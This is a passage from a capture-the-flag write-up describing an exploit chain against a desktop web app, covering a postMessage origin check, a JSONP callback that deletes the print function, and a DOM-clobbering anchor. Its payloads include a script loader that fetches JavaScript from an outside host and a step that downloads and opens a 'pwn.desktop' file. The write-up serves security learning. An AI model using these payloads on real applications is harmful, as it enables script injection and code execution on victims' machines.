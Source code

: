 We can log the xml in this file if the postMessage is coming from `file:///` origin or `http://127.0.0.1:1024`(apiUrl)
```js

window.addEventListener("message", (e) => {
  if (
    (e.origin !== "file://" && e.origin !== apiUrl) ||
    typeof e.data !== "object"
  )
    return;
```

We need either XSS on api to log xml in log.xml file.

### XSS on api (interesting part)

On api we can notice an jsonp callback, interesting enough characters `[].` along with alphanums are allowed in the callback, so we can call arbitrary methods using this jsonp callback. This doesn't give allows us to postMessage to the top window. We must need an XSS here.

At this point, I am trying various stuff and [terjanq](https://twitter.com/terjnaq) came online and we both started working on it.

There is onerror event handler, which logs errors in xml file. We tried various things to trigger error via limited html injection. It turned out to be impossible to generate proper error with html in it.
```js
window.onerror = (err) => {
  writeLog("error", err);
};
```

After some time, terjanq pointed out to me an interesting sink.

```js
        if (params.get("auto")) setTimeout(print, 2000);
```
He said we can delete `print` and redefine via DOM Clobbering so that arbitrary js gets executed.

POC: jsonp callback to delete `print` function
```js
?cb=[delete[this][0].print].push
```
POC: DOM Clobbering to redefine print which executes js
```html
<a id=print href="cid:a=document.createElement('script');a.src='https://ctf.s1r1us.ninja/ctf/alles.js';document.body.append(a)">asd</a>
```

### Super Chain
1. Using XSS on api we send and postMessage which logs XML data `X` in the local file log.xml(file:///app/src/log.xm),
2. `X` contains javascript to download `pwn.desktop` and a navigaton to `pwn.desktop` after 1 second.
3. We include the `file:///app/src/log.xml` in an iframe with relative url which executes XML data `X`
